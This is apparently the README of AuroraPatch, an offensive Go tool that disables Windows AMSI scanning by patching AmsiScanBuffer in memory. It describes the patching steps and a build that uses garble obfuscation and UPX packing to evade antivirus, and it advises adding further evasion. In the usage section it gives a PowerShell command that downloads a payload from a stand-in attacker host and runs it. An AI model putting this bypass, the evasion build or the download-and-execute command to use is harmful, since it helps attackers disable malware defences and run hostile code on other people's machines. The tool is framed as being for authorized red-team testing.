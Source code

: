 # AuroraPatch: AMSI Bypass Tool in Go

<img width="1024" height="1024" alt="image" src="https://github.com/user-attachments/assets/46cf574b-9449-4248-9785-eebb5cf72d01" />


![Go](https://img.shields.io/badge/Go-1.24.2-blue)
![License](https://img.shields.io/github/license/grisuno/amsi)

**AuroraPatch** is a lightweight, offensive Go tool that bypasses Windows AMSI (Anti-Malware Scan Interface) by patching the `AmsiScanBuffer` function in memory. Designed for red teamers and security researchers, it allows execution of scripts that would otherwise be blocked by Defender or other AMSI-integrated AVs.

> ⚠️ **For authorized use only.**  
> This tool is intended for penetration testing, ethical hacking, and educational purposes.

---

## 🌟 What is AMSI?

AMSI (Anti-Malware Scan Interface) is a Windows security feature that enables antivirus solutions to scan scripts (PowerShell, WMI, etc.) in real time. AuroraPatch demonstrates how AMSI can be bypassed by directly modifying memory in the current process.

---

## 🔧 How It Works

AuroraPatch performs the following steps:
1. Loads `amsi.dll` dynamically.
2. Resolves the address of `AmsiScanBuffer`.
3. Changes memory permissions using `VirtualProtectEx`.
4. Patches the first byte of `AmsiScanBuffer` with `0xC3` (`ret` instruction).
5. Restores original memory permissions.

## Result:  
✅ `AmsiScanBuffer` returns immediately — no scan occurs.  
🛡️ Effective for bypassing AMSI during post-exploitation.

> 🔁 **In-memory only**: Patch is volatile and lasts only for the current process.

---

## ⚠️ Legal & Ethical Disclaimer

This tool is **strictly for educational and authorized security assessments**.  
Unauthorized use may violate laws or regulations.  
The author assumes **no liability** for misuse.

---

## 🛠️ Build Instructions

Compiles to a Windows executable using cross-compilation, obfuscation (`garble`), and compression (`UPX`).

### Prerequisites
- Go 1.24.2+
- MinGW-w64 (`x86_64-w64-mingw32-gcc`)
- `garble` (Go obfuscator)
- `upx`

Install `garble`:
```bash
go install github.com/burrowers/garble@latest
```
Build (from Linux/WSL)
```bash
make windows
```
or just:

```bash
./install.sh
```


Output:
amsi.exe  # Obfuscated, compressed Windows executable

- ✅ Binary is obfuscated with garble -literals -tiny and packed with UPX to reduce detection. 

## ▶️ Usage

Run on target Windows system:

```cmd
amsi.exe
```

```powershell
.\amsi.exe
```

Expected output:
```cmd
[+] AMSI patched: AmsiScanBuffer replaced with ret
AMSI bypass successful. Test with PowerShell or WMI scripts.
```
Now execute blocked scripts:
```powershell
powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
```

🔄 Patch only affects the current process. Restarting restores AMSI protection. 

## 🧹 Clean Build Artifacts

```bash
make clean
```

## 📂 Project Structure

```text
├── amsi.go        # Main logic: AMSI patching via Windows API
├── go.mod         # Go module definition
├── go.sum         # Dependency checksums
└── Makefile       # Cross-compilation and obfuscation rules
```

## 🧲 Technical Details
- Uses golang.org/x/sys/windows for low-level Windows API access.
- No external dependencies beyond standard Go and x/sys.
- Direct memory manipulation via:
- LoadLibrary / GetProcAddress
- OpenProcess
- VirtualProtectEx
- WriteProcessMemory

## 🛑 Detection & Evasion
- Static (AV)
- Reduced via
- garble + UPX
- Dynamic (EDR)
- May trigger on memory RWX, process injection
- Persistence
- None (in-memory only)

💡 Tip: Combine with other evasion techniques (sleep masking, API unhooking, etc.) for better stealth.

## 📚 References
- Microsoft AMSI Docs
- garble - Go Obfuscator
- UPX Executable Packer


![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54) ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white) ![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white) [![License: GPL v3](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2Z73AV)
